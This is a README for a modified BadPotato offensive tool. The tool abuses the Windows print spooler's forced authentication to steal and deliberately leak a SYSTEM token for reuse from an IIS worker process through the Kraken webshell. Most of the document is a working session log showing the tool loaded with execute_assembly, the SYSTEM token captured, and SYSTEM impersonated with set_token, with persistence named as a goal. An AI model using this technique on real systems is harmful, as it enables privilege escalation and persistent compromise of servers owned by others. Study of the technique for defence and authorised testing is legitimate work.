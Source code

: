 # BadPotato mod

BadPotato uses the Windows print service (**spoolss**) to exploit a [Forced Authentication][1]. This forced authentication occurs through the RPC call: [`RpcRemoteFindFirstPrinterChangeNotificationEx()`][2], which generates a notification object that monitors changes to a print object. This is used to force the print service to connect to a NamedPipe that we have created and steal the access token from it. As the user running the print service is the system account, we can use his token to elevate privileges.

This binary is a modified version of the original [BadPotato][3] code. This version performs privilege elevation just like BadPotato does, however, the code block relating to the creation and execution of the new process using the duplicate SYSTEM token has been removed. Instead, it forces a "leak" of the duplicate token by not calling the `CloseHandle()` that frees the reference.

By "leaking" the token, it can be used from the IIS Worker process itself (w3wp.exe), therefore, it is possible to use it via Kraken to impersonate the security context and privileges of the **NT AUTHORITY\SYSTEM** account.

In this way, it is possible to abuse the **SeImpersonate** privilege to achieve privilege escalation + persistence (because we can maintain the privilege level through the use of the Handle to Token).

## Examples

An example of elevation of privilege + impersonation using Kraken:

```
(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ sysinfo
Hostname: DESKTOP-8D0OEQR
IP: 172.20.10.9
OS: Microsoft Windows NT 10.0.19045.0 x64
User: IIS APPPOOL\DefaultAppPool
Path: C:/inetpub/wwwroot
Version: 4.0.30319.42000

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ help execute_assembly
usage: execute_assembly -f F -n N -c C -m M [arguments [arguments ...]]

Load a NET Assembly into memory using Reflection

positional arguments:
  arguments  Arguments to pass to the assembly

optional arguments:
  -f F       Local Filepath of NET Assembly (remember to check the NET version of the assembly and the architecture)
  -n N       Namespace to call inside Assembly.
  -c C       Class to call inside Assembly.
  -m M       Method to call inside Assembly.

Examples:
  execute_assembly -f ~/Kraken/test/net_assemblies/BadPotato_net40_x64.exe -n BadPotato -c Program -m call
  execute_assembly -f ~/Kraken/test/net_assemblies/dummy_net40_x64.exe -n Dummy -c Program -m Main -- Ping
  execute_assembly -f ~/Kraken/test/net_assemblies/dummy_net20_x64.exe -n Dummy -c Program -m Main -- Ping -h --help

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ list_tokens

  TOKEN  USERNAME                    NETWORK ACCESS  INTEGRITYLEVEL

  636    nt authority\iusr           True            HIGH
  664    iis apppool\defaultapppool  True            HIGH

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ execute_assembly -f /home/secu/net_assemblies/bin/BadPotato-mod/BadPotato_net40_x64.exe -n BadPotato -c Program -m Main
[*] PipeName : \\.\pipe\986aba0ae0e14cdd906d46087e9cbc55\pipe\spoolss
[*] ConnectPipeName : \\DESKTOP-8D0OEQR/pipe/986aba0ae0e14cdd906d46087e9cbc55
[*] CreateNamedPipeW Success! IntPtr:2496
[*] RpcRemoteFindFirstPrinterChangeNotificationEx Success! IntPtr:2817957639424
[*] ConnectNamePipe Success!
[*] CurrentUserName : DefaultAppPool
[*] CurrentConnectPipeUserName : SYSTEM
[*] ImpersonateNamedPipeClient Success!
[*] OpenThreadToken Success! IntPtr:2232
[*] DuplicateTokenEx Success! IntPtr:2248
[*] Token: 2248


(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ list_tokens

  TOKEN  USERNAME                    NETWORK ACCESS  INTEGRITYLEVEL

  636    nt authority\iusr           True            HIGH
  664    iis apppool\defaultapppool  True            HIGH
  2248   nt authority\system         False           SYSTEM

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ set_token 2248
Impersonated user: 'NT AUTHORITY\SYSTEM' with token: '2248'

(ST) NT AUTHORITY\SYSTEM@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ id
user=S-1-5-18(NT AUTHORITY\SYSTEM) groups=S-1-5-32-544(BUILTIN\Administradores),S-1-1-0(Todos),S-1-5-11(NT AUTHORITY\Usuarios autentificados)

(ST) NT AUTHORITY\SYSTEM@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ rev2self
[*] Token 2248 has been dereferenced (this does not mean that the token has been released)

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ id
user=S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415(IIS APPPOOL\DefaultAppPool) groups=S-1-1-0(Todos),S-1-5-32-545(BUILTIN\Usuarios),S-1-5-6(NT AUTHORITY\SERVICIO),S-1-2-1(INICIO DE SESIN EN LA CONSOLA),S-1-5-11(NT AUTHORITY\Usuarios autentificados),S-1-5-15(NT AUTHORITY\Esta compaa),S-1-5-32-568(BUILTIN\IIS_IUSRS),S-1-2-0(LOCAL)

(ST) IIS APPPOOL\DefaultAppPool@DESKTOP-8D0OEQR:C:/inetpub/wwwroot$ exit
```


[1]: https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication "Forced Authentication Examples"
[2]: https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d "MSDN Endpoint Spec"
[3]: https://github.com/BeichenDream/BadPotato "BadPotato Repository"
